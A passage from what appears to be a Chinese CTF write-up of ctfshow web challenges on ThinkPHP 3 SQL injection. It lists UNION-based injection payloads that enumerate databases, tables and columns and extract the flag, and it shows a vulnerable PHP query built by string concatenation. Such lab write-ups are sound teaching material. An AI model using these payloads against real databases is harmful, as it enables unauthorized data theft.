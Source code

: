 ```sql
# 爆库  ctfshow,ctftraining,information_schema,mysql,performance_schema,test
?id[where]=0 union select 1,group_concat(schema_name),2,3 from information_schema.schemata%23
# 爆表  ctfshow_users,flags,FLAG_TABLE,news,users ....
?id[where]=0 union select 1,group_concat(table_name),2,3 from information_schema.tables%23
# 爆字段
?id[where]=0 union select 1,group_concat(column_name),2,3 from information_schema.columns%23
#爆flag
?id[where]=0 union select 1,group_concat(flag4s),2,3 from ctfshow.flags%23
```

其他师傅做到详细跟踪[tp3 SQL注入漏洞跟踪](https://blog.csdn.net/qq_50589021/article/details/120616736)


## web 574

> 描述：sql注入，flag在数据库中

给出提示：这里把接收到的参数和字符串`'id='`进行了拼接，那么间接的禁止了传入数组类型

不过，这里是不是说直接把拼接的内容作为查询条件了？？？


```php
public function index($id=1){
$name = M('Users')->where('id='.$id)->find();
$this->show($html);
}
```

太棒了，我喜欢！

![22](/medias/show-think/22.png)


这里的括号可以闭合，下面操作就和上题一样了。狠狠的注入正能量！
